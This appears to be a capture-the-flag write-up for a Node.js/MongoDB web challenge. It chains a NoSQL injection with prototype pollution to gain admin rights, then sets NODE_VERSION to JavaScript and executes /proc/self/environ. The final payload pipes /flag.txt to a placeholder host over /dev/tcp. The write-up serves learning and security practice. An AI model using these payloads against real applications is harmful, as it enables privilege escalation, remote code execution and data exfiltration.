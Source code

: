 We can easily notice the NoSQL injection in ```  var query=JSON.parse(`{"$set":{"username":"${req.body.username}","anime":"${req.body.anime}"}}`); ``` and prototype pollution here :

```
 var newUser={};
var attrs=Object.keys(result.value);
attrs.forEach((key)=>{
 newUser[key.trim()]=result.value[key];
if(key.trim()==="isAdmin"){
newUser["isAdmin"]=0;
  }
});
```

Our goal is to set isAdmin to 1, the prototype pollution vulnerable part is parsing the result json object of NoSQL query, so if we chain the NoSQL injection with prototype
pollution we will have the possibility to set isAdmin to 1, we can achieve this by injecting the following in anime field:

> brrr","   __proto__" : {"isAdmin":1}, "aaaa":"aaa

W don't have to forget the whitespace before ```__proto__``` because mongo doesn't accept it by default but we can notice the usage of trim() so adding some whitespace will do the trick.

Now we have admin access:

![ADMIN](https://imgur.com/kGcC3xI.png)

In the admin panel we have the possibility to set an environment variable and run a js script, the intended idea is to set ``` NODE_VERSION ``` env variable to some js code followed by // and then execute /proc/self/environ.
The content of /proc/self/environ will be interpreted as Js code ( we chose NODE_VERSION because it's the first env var, we knew it by connecting to the node docker image and checking its environment variables).

Final payload:

```
envname: NODE_VERSION

env: process.mainModule.require('child_process').exec("bash -c \" cat /flag.txt > /dev/tcp/IP/PORT\""); //

path: /proc/self/environ

```

And Bingo we got our flag 

![FLAG](https://imgur.com/DNO9m4H.png)

### Other Writeups ###

Super Guesser Team writeups, they solved all web challenges :D [LINK](https://github.com/Super-Guesser/ctf/tree/master/Fword%20CTF%202020/writeups)
